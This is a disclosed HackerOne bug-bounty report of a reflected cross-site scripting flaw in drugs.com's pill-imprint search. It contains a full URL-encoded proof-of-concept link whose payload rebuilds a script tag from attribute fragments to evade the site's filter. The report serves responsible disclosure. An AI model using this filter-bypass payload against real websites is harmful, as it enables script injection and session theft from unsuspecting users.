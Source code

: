 # Cross-site Scripting (XSS) - Reflected

## Report Details
- **Report ID**: 1211148
- **URL**: https://hackerone.com/reports/1211148
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-05-28T00:17:55.741Z
- **Disclosed**: 2024-08-21T14:53:20.455Z

## Reporter
- **Username**: mersenne
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: drugs_com

## Vulnerability Information
Hello,
I found a XSS vulnerability in https://www.drugs.com/imprints.php?imprint=&color=&shape=0
The vulnerability is in the parameter *imprint*.
The vulnerability only exists if there is at least one result in the search. However, if you put a text long enough, you will always have search results. 

For example, the search: 'sometext' (https://www.drugs.com/imprints.php?imprint=sometext&color=8&shape=24) doesn't have results. However, the search 'sometextsometextsometextsometextsometextsometextsometextsometextsometextsometextsometextsometextsometext' (https://www.drugs.com/imprints.php?imprint=sometextsometextsometextsometextsometextsometextsometextsometextsometextsometextsometextsometextsometext&color=8&shape=24) have 971 results.
In this way, an attacker can put a long text and always have search results and perform the xss attack (although the protection against xss makes things a bit difficult).

**Steps To Reproduce**:
Visit de following POC link  (works in firefox but not in chrome) and move your mouse over the search filters ('sort by' or 'amount of results'):
https://www.drugs.com/imprints.php?imprint=_%22%3E%3C%78%20%69%64%3D%22%78%22%20%76%35%3D%22%29%22%20%76%31%3D%22%3C%22%20%76%32%3D%22%53%43%52%49%50%54%3E%22%20%76%33%3D%22%61%6C%65%22%20%76%34%3D%22%72%74%28%31%22%20%76%36%3D%22%3C%2F%22%20%76%37%3D%22%53%43%52%49%50%54%3E%22%20%6F%6E%70%6F%69%6E%74%65%72%6F%76%65%72%3D%22%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%60%24%7B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%31%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%32%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%33%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%34%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%35%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%36%2E%76%61%6C%75%65%2B%77%69%6E%64%6F%77%2E%78%2E%61%74%74%72%69%62%75%74%65%73%2E%76%37%2E%76%61%6C%75%65%7D%60%22%3E&color=8&shape=24

## Impact

An XSS attack allows an attacker to execute arbitrary JavaScript in the context of the attacked website and the attacked user. This can be abused to steal session cookies,  redirect users on malicious website, perform requests in the name of the victim, and more.

## Attachments
No attachments
